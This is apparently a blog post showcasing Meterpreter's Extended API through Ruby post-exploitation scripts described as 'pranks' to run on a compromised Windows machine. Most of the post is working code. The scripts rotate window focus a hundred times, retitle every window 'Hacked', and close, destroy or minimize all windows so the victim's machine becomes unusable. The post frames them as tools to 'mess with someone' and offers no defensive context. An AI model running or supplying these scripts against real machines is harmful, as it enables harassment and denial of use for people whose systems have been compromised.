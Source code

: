 = ExtAPI Pranks
:hp-tags: code, meterpreter, extapi

Since I've been gone, OJ has released the ExtAPI (Extended API) for Meterpreter. This has some pretty amazing functionality. You can find https://twitter.com/TheColonial[OJ]'s write up on it and more amazing things he did in http://buffered.io/posts/3-months-of-meterpreter/[3 months of meterpreter] and on the https://community.rapid7.com/community/metasploit/blog/2013/12/12/weekly-metasploit-update[Metasploit blog].

Just brushing the surface and to help people see the power of this new functionality I went ahead and created a few Meterpreter scripts that can really mess with someone.

1st is a script that loops through all of the windows for your current user and sets the focus to them in rotation. Essentially making their machine unusable.

* Source: https://gist.github.com/mubix/8050500
```ruby
# Code loops around each of the windows
# that the current user has open and switches
# focus to each of them in rotation... 100 times.
 
(0..100).each do |x|
	windows = client.extapi.window.enumerate
	windows.each do |winder|
		if winder[:title] != 'Default IME'
			result = client.railgun.user32.SetForegroundWindow(winder[:handle])
		end
	end
	print_status("Round #{x}")
end
```

2nd just sets all of the windows title's the say "hacked"

* Source: https://gist.github.com/mubix/8050592
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
  if winder[:title] != 'Default IME'
    result = client.railgun.user32.SetWindowTextA(winder[:handle],"Hacked")
  end
end
```

and finally if in Windows if you close all of the windows, including "invisible" ones like Explorer, you will essentially make the machine unusable.

* Source: https://gist.github.com/mubix/8050653
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
	result = client.railgun.user32.CloseWindow(winder[:handle])
end
```

OJ suggested a few other options:

Destroy:
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
    result = client.railgun.user32.DestroyWindow(winder[:handle])
end
```

or Minimize all:
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
    result = client.railgun.user32.ShowWindow(winder[:handle], 6)
end
```

Thats it for now, next up we will do a few things with services as well as the clipboard. Stay tuned!